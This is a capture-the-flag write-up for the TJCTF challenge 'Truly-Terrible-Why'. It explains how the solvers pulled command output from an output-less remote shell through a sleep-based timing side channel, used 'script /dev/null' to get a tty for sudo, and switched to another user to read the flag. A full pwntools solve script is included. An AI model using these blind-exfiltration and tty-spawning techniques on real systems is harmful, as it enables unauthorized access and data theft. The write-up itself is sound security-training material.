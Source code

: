 # Truly-Terrible-Why
Misc, 50

>  Written by lighthouse64
>  Your friend gave you a remote shell to his computer and challenged you to get in, but something seems a little off... The terminal you have seems almost like it isn't responding to any of the commands you put in! Figure out how to fix the problem and get into his account to find the flag!
>  
>  Note: networking has been disabled on the remote shell that you have. Also, if the problem immediately kicks you off after typing in one command, it is broken. Please let the organizers know if that happens.
>   
>  nc 52.205.246.189 9000 

We took a very zero braincell approach to this problem. We discovered that sending `exit` and then anything else would result in the connection being closed. We also noticed that sending `sleep 1 && exit` took one second longer...

Now we come up with a way to exfiltrate output. `wc -l` is a nice way to convert output to a number, and `grep` supports regular expressions that will allow us to binary search for each character of the output. We can limit `grep` to return at most one match with `-m 1`, and we can get different lines of the output by piping into `head -n $n | tail -n 1`. The resulting input looks something like:
```bash
sleep $(command | head -n 1 | tail -n 1 | grep -m 1 -P '^ *%s[\x%02x-\x%02x]' | wc -l) && exit
```
A simple `exit` takes 1 second, so if our command takes more than 2 seconds, we know that there is output. Now we can begin running commands.

There are two text files in the current working directory that contain some info. `message.txt` tells us that we want to impersonate `other_user` and `password.txt` tells us that the password for `problem_user` is `123qwer`. Running `whoami` tells us that we are `problem-user`. So, we probably need to use `sudo` to switch to `other-user`. (underscores are replaced by dashes for no reason, looking at `/etc/passwd` confirms this)

The problem is that you can't run `sudo` unless you're in a `tty`. This is quite annoying, so of course we Google the problem.

![](https://i.imgur.com/EndT0gA.png)
![](https://i.imgur.com/7yU0mS4.png)
![](https://i.imgur.com/pvfNkth.png)

Great, so we try `echo '1234qwer' | script /dev/null -c 'sudo ls'`. Unforunately our commands are now taking one second longer for some unknown reason, but that's fine; we just increase the time cutoff from 2 seconds to 3. We get our output at  rate of about 20 seconds per character: `Sorry, user problem-user is not allowed to execute '/bin/ls' as other-user on ctf-challenge.`
wtf??
We run `sudo -l` to see what we're allowed to do. The output is `(root) /usr/bin/chguser`.
wtf??
We try running `sudo chguser` and get some output: `other-user@ctf-challenge:~$`.
wtf??
So now we try running `echo whoami | sudo chguser`, just for the lulz. We get `other-user`.
wtf??
Now we run `cat /home/other-user/*` as `other-user` and see what we can find. After waiting for a bit, we get `cat: /home/other-user/flag: Is a directory`.
wtf??
Hopefully this isn't actually what the flag file contains. We try submitting `cat: /home/other-user/flag: Is a directory` as our flag and it doesn't work. Whew. So now we try `cat /home/other-user/*` and get the flag: `tjctf{ptys_sure_are_neat}`

Final solve script:
```python
from pwn import *
import time
def test(command):
	r = remote('52.205.246.189',9000)
	s = time.time()
	r.sendline('sleep $(%s) && exit'%command)
	try:
		while 1:
			r.sendline("exit")
	except EOFError:
		pass
	r.close()
	t = time.time()-s
	if t>3:
		return t
	return 0
m = ""
while 1:
	lo, hi = 31, 127
	while lo<hi:
		mid = (lo+hi)//2
		res = test(r"echo '1234qwer'|script /dev/null -c $'echo \'cat /home/other-user/flag/*\'|sudo chguser' | head -n 4 | tail -n 1 | grep -m 1 -P '^ *%s[\x%02x-\x%02x]' | wc -l"%(repr(m)[1:-1].replace("'",r"\x27").replace("(",r"\(").replace(")",r"\)"),lo,mid))
		if res:
			hi = mid
		else:
			lo = mid+1
	if lo==127 or lo==31:
		break
	m+=chr(lo)
	print(m)
```

Flag: `tjctf{ptys_sure_are_neat}`

Note: Intended solution was to use python to spawn a pty shell, then redirect to stdin to get an actual shell.